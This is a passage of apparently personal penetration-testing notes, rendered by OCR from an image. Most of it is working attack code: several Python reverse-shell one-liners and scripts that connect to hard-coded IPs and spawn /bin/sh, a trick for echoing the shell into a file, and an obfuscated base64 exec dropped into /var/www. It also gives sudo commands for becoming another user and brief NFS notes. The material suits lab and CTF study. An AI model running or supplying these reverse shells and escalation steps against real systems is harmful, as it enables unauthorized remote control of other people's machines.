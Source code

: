 


on the machine on which you want to obtain the shell
echo "exec('aW1w...KQ=='.decode('base64'))" > /var/www/connect.py




130) execute command as another user:
sudo -u alpha chmod u+x file.txt


sudo -l   // see what can commands you can do with sudo
 sudo -u victim /bin/bash




=============
131) python reverse shell


python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


OR as in a file
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.176",1234));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])


OR to echo it to a file
echo "import socket,subprocess,os" > test1.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> test1.py
echo "s.connect((\"10.10.14.176\",1234));os.dup2(s.fileno(),0)" >> test1.py
echo "os.dup2(s.fileno(),1)" >> test1.py
echo "os.dup2(s.fileno(),2)" >> test1.py
echo "p=subprocess.call([\"/bin/sh\",\"-i\"])" >> test1.py


================
nfs
allows a client to mount a file on a remote computer [exports]
exports are the things we want to share.
v4 uses tcp port 2049
v3 uses dynamically allocated ports. v3 is rpc over udp.


NFS Services
Server:
nfs-server TCP Based Server version 4
rpcbind - Manages RPC port reservations and connections (only needed for v3)




Client:
rpcbind only needed for version 3
no need for any services on the client if ersion 4 is being used

